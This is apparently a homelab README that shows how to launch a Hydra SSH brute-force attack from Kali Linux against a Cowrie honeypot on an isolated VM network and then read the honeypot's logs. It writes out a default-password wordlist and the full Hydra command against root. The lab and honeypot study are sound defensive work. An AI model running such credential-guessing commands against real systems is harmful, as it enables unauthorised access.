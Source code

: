 # ⚙️ Project Setup: Hydra SSH Brute-Force Attack on Cowrie Honeypot

This setup guide walks through the entire process of using Hydra to perform a brute-force SSH attack against a Cowrie honeypot running on a virtual Ubuntu server.

---

## 🖥️ Virtual Environment

- **Attacker Machine:** Kali Linux VM (Hydra pre-installed)
- **Target Machine:** Ubuntu Server VM with Cowrie Honeypot
- **Network:** Both VMs set to **Host-Only Adapter** on VirtualBox for local traffic sniffing

---

## ✅ Step-by-Step Instructions

---

### 🔹 Step 1: Create Project Directory

**On Kali Linux:**

cd ~
mkdir hydra-project
cd hydra-project
[Hydra project folder created](screenshots/01_hydra_project_folder_created.png)

###🔹 Step 2: Create a Password Wordlist
Inside the hydra-project directory, run:

echo "123456" > passwords.txt
echo "password" >> passwords.txt
echo "admin" >> passwords.txt
echo "toor" >> passwords.txt
echo "cowrie" >> passwords.txt
Verify the contents:

cat passwords.txt
[Password texts created](screenshots/02_passwords_txt_created.png)

###🔹 Step 3: Run Hydra SSH Brute-Force Attack
Replace <target-ip> with the IP address of your Cowrie VM, and ensure it's listening on port 2222.

hydra -l root -P passwords.txt ssh://<target-ip>:2222
✅ Example:

hydra -l root -P passwords.txt ssh://192.168.40.83:2222
[Hydra attack success](screenshots/03_hydra_attack_success.png)

###🔹 Step 4: Check Cowrie Logs
Now switch to your Ubuntu Server VM running Cowrie.

Activate the virtual environment:

cd /home/cowrie/cowrie
source cowrie-env/bin/activate
Check Cowrie logs:

tail -f var/log/cowrie/cowrie.log
[Cowrie log verified](screenshots/04_cowrie_log_verified.png)

📝 Notes
Ensure both VMs are running and connected to the same Host-Only network.

Cowrie must be actively running before launching the Hydra attack.

Use cowrie bin/cowrie status to verify its status.

